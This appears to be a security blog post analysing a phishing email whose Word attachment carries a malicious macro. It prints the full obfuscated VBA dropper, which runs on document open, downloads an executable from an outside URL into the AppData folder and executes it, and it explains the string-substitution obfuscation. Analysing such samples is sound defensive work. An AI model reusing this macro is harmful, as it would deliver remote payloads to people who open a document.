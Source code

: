```yaml
---
layout: post
title: Malware Analysis SAT_Documento778288
---
```


Today I want to post a real malware analysis which I've done in my actual company. A project manager contacted with me and sent me a suspicious email which seems to be a tipical phising attack. For people who doesn't speak spanish, the body of the email blame us of tax evasion:

![evidence1]({{ site.baseurl }}/images/mlwr_satdocumento01.png)

In the email, the sender appended a doc file attachment with the name "SAT_Documento778288.doc". At first glance, VirusTotal report to us a Macro-based malware, probably written in VBA (Visual Basic for Application). It is interesting to observe how any of the most important AV solutions don't detect the malicious code:

![evidence2]({{ site.baseurl }}/images/mlwr_satdocumento02.png)

Analyzing the code, you can see how effectively it is a document that hides a macro written in VBA.
```
Dim JKlWp6gFNDD5rvrAaEWp8W27 As String

Private Declare Function URLDownloadToFileW Lib "urlmon.dll" (ByVal wT2uFiYs90CvHobTzNKS8krV4I2JU2 As Long, ByVal wT2uFiYs90CvHobTzNKS8krV4I2JU3 As Long, ByVal wT2uFiYs90CvHobTzNKS8krV4I2JU4 As Long, ByVal wT2uFiYs90CvHobTzNKS8krV4I2JU5 As Long, ByVal wT2uFiYs90CvHobTzNKS8krV4I2JU6 As Long) As Long

Private Declare Function ShellExecuteW Lib "shell32.dll" (ByVal M4V4Jbr3 As Long, ByVal JR1QH1m3B3wHSV1D4y7rR As Long, ByVal ocMZjvRbAhK3jMRay8ku5p83pjT0En As Long, ByVal x0UTO3sI0mjsE As Long, ByVal wT2uFiYs90CvHobTzNKS8krV4I2JU0 As Long, ByVal wT2uFiYs90CvHobTzNKS8krV4I2JU1 As Long) As Long

Dim izg2Z6fBgnmpW5474FUgMYhoGVu As String

Sub Auto_Open()
Call m8g3C1uuV5DsKrkV1kA2PzVP0
End Sub


Private Function wT2uFiYs90CvHobTzNKS8krV4I2JU() As Variant

''''''

izg2Z6fBgnmpW5474FUgMYhoGVu = "httYG3V6R2l0eKchtIFTVQ5985ps://site.sitYG3V6R2l0eKchtIFTVQ5985ez3.com/soYG3V6R2l0eKchtIFTVQ5985und.YG3V6R2l0eKchtIFTVQ5985mp3YG3V6R2l0eKchtIFTVQ5985"

k = URLDownloadToFileW(0&, StrPtr(Replace(izg2Z6fBgnmpW5474FUgMYhoGVu, "YG3V6R2l0eKchtIFTVQ5985", "")), StrPtr(JKlWp6gFNDD5rvrAaEWp8W27), 0&, 0&)

wT2uFiYs90CvHobTzNKS8krV4I2JU7
''''''

End Function

Private Function m8g3C1uuV5DsKrkV1kA2PzVP0() As Long

JKlWp6gFNDD5rvrAaEWp8W27 = Environ("ap" & "pdata") & "\ggg1" & "IOLHnI060NyHiu.exe"

Call wT2uFiYs90CvHobTzNKS8krV4I2JU

End Function

Sub AutoOpen()
Call m8g3C1uuV5DsKrkV1kA2PzVP0
End Sub

Private Sub wT2uFiYs90CvHobTzNKS8krV4I2JU7()
Application.DisplayAlerts = False

ShellExecuteW 0&, StrPtr("Open"), StrPtr(JKlWp6gFNDD5rvrAaEWp8W27), StrPtr(""), StrPtr(""), 1

Application.Quit
End Sub

Sub Workbook_Open()
Call m8g3C1uuV5DsKrkV1kA2PzVP0
End Sub
```
Although it has some techniques of obfuscation implemented, its evasion was simple and in the majority of cases they refer to substitutions of long strings. For example, as it's shown before, the string "YG3V6R2l0eKchtIFTVQ5985" is replaced with "".
